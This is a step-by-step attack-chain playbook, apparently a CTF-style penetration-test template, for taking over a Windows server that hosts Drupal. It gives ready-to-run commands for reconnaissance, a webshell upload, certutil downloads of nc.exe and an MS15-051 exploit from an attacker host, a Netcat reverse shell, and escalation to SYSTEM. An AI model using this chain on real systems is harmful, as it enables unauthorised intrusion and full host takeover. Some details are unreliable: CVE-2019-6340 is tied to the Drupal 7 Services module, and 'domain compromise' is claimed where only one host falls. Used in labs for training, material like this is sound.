

# Drupal-7-x-RCE-to-Windows-Reverse-Shell-and-Privilege-Escalation

This attack chain demonstrates a realistic CTF-style penetration test workflow targeting a Drupal 7.x web application vulnerable to CVE-2019-6340 in the Services module. The chain begins with reconnaissance to identify the web service, exploits the RCE vulnerability to upload a webshell, upgrades the web RCE to a Netcat reverse shell on the underlying Windows host, enumerates for privilege escalation vectors using Sherlock, and finally exploits the MS15-051 kernel vulnerability to achieve SYSTEM privileges. The target environment assumes a Windows server hosting the Drupal site with network access from the attacker's machine.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~1-2 hours |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Nmap]]
- [[tools/Wfuzz]]
- [[tools/Netcat]]
- [[tools/Sherlock]]
- Python 3 (for HTTP server)

### Target Environment

- Windows server (2003-2012 unpatched) hosting Drupal 7.x with Services module enabled
- Exposed web port (e.g., 80 or 443)
- Network connectivity to target IP
- Attacker machine with Kali Linux or equivalent

### Initial Access Requirements

- No authentication required (public-facing Drupal site)
- Firewall allowing outbound connections from target to attacker IP/port
- Writable web directory on target for payload upload

## Detailed Attack Procedures

### Step 1: Perform Basic Port Scan with Service Enumeration
procedure: [[procedures/basic-port-scan-with-service-enumeration]]

**Objective**: Identify open ports and services on the target, confirming the presence of a web server hosting Drupal.

**Instructions**: Run a port scan using [[commands/nmap-port-scan-with-banner-enumeration]] to scan common ports and enumerate service versions:

```bash
nmap -sV $_TARGET_IP
```

Look for port 80 or 443 with HTTP service banners indicating Apache or IIS, and potential Drupal indicators in the version info.

**Expected Output**: List of open ports, e.g., 80/tcp open http Apache httpd 2.4.x, confirming web service exposure.

**Success Indicators**:
- Web port (80/443) identified and responsive
- Service banner suggests Drupal or PHP-based web app

### Step 2: Directory Brute Force Web App with Wfuzz
procedure: [[procedures/directory-brute-force-web-app-with-wfuzz]]

**Objective**: Discover hidden directories and endpoints on the Drupal site, identifying the Services module REST API path.

**Instructions**: Use [[commands/wfuzz-directory-brute-force]] to brute-force directories against the web root:

```bash
wfuzz --hc 404 -c -w $_WORDLIST -u http://$_TARGET_IP/FUZZ
```

Focus on common paths like /rest, /sites, /modules to locate the vulnerable Services endpoint.

**Expected Output**: Responses with 200/301 status for directories like /rest or /admin, indicating API exposure.

**Success Indicators**:
- Discovery of /rest or similar endpoint
- Confirmation of Drupal structure (e.g., /sites/default/files)

### Step 3: Exploit Drupal 7.x Services Module RCE CVE-2019-6340
procedure: [[procedures/drupal-7-x-services-module-rce-cve-2019-6340]]

**Objective**: Leverage the deserialization flaw in the Services module to upload a PHP webshell for initial RCE.

**Instructions**: Download the exploit script from Exploit-DB, modify variables ($url to $_TARGET_IP, $endpoint_path to /rest), and prepare the payload using the [[codes/drupal-services-module-rce-payload]] code snippet. Execute the PHP exploit script to upload the webshell via POST to the REST endpoint. Access the uploaded shell at http://$_TARGET_IP/cmdshell.php?cmd=whoami to verify execution.

**Expected Output**: Successful file upload response from the REST endpoint, and command output from the webshell (e.g., www-data or iis user).

**Success Indicators**:
- Webshell file created in web root
- Command execution confirmed via ?cmd= parameter

### Step 4: Upgrade Website RCE to Netcat Reverse Shell on Windows
procedure: [[procedures/upgrade-website-rce-to-netcat-reverse-shell-windows]]

**Objective**: Use the webshell to download and execute Netcat on the Windows host, establishing a reverse shell for interactive access.

**Instructions**: Start an HTTP server on attacker machine with [[commands/python3-launch-http-server]]:

```bash
python3 -m http.server 80
```

From the webshell, download nc.exe using [[commands/download-file-remote-http-certutil]]:

```command_prompt
certutil.exe -urlcache -split -f "http://$_ATTACKER_IP/nc.exe" nc.exe
```

Set up listener with [[commands/create-netcat-listener]]:

```bash
nc -lvnp $_ATTACKER_PORT
```

Execute reverse shell via webshell with [[commands/execute-netcat-command-shell-cmd-exe-rce]]:

```command_prompt
cmd.exe /C "nc.exe $_ATTACKER_IP $_ATTACKER_PORT -e cmd.exe"
```

**Expected Output**: Incoming connection on Netcat listener with Windows cmd prompt.

**Success Indicators**:
- Reverse shell connection established
- Basic commands (whoami, dir) execute successfully

### Step 5: Enumerate Windows for Missing Patches and Hotfixes with Sherlock
procedure: [[procedures/enumerate-windows-missing-patches-hotfixes-sherlock]]

**Objective**: Scan the compromised Windows host for unpatched vulnerabilities, identifying MS15-051 as a priv esc vector.

**Instructions**: From the reverse shell, download Sherlock.ps1 using [[commands/download-file-remote-http-certutil]] to a writable path like C:\Windows\Tasks. Import and run with [[commands/sherlock-import-module-enumerate-vulnerabilities]]:

```powershell
. .\Sherlock.ps1; Find-AllVulns
```

Review output for vulnerable exploits like MS15-051.

**Expected Output**: List of potential vulns, e.g., Title: ClientCopyImage Win32k, VulnStatus: Vulnerable.

**Success Indicators**:
- MS15-051 or similar kernel exploit identified
- Confirmation of unpatched Windows version

### Step 6: Exploit ClientCopyImage Vulnerability MS15-051
procedure: [[procedures/exploit-clientcopyimage-vulnerability-ms15-051]]

**Objective**: Use the identified kernel vulnerability to escalate from low-priv shell to SYSTEM privileges.

**Instructions**: Host ms15-051.exe on attacker HTTP server with [[commands/python3-launch-http-server]]. Download to target with [[commands/download-file-remote-http-certutil]]:

```command_prompt
certutil.exe -urlcache -split -f "http://$_ATTACKER_IP/ms15-051.exe" ms15-051.exe
```

Execute with [[commands/execute-ms15-051-exe-command-shell]] to spawn a SYSTEM shell:

```command_prompt
cmd.exe /c ms15-051.exe "whoami > C:\temp\whoami.txt"
```

Verify escalation by checking the output file or spawning a new shell.

**Expected Output**: Exploit success message and SYSTEM-level command output (e.g., nt authority\system).

**Success Indicators**:
- Privilege escalation to SYSTEM confirmed
- Full administrative access to the Windows host

## Attack Chain Summary

### Key Achievements

1. Identified and confirmed Drupal web service exposure
2. Achieved unauthenticated RCE via CVE-2019-6340
3. Upgraded to interactive Windows reverse shell
4. Enumerated unpatched vulnerabilities with Sherlock
5. Escalated privileges to SYSTEM using MS15-051

This chain represents a complete path from external recon to domain compromise in a mixed web/Windows CTF environment.

---

*Last updated: 2023-05-29T16:48:53.162677+00:00*
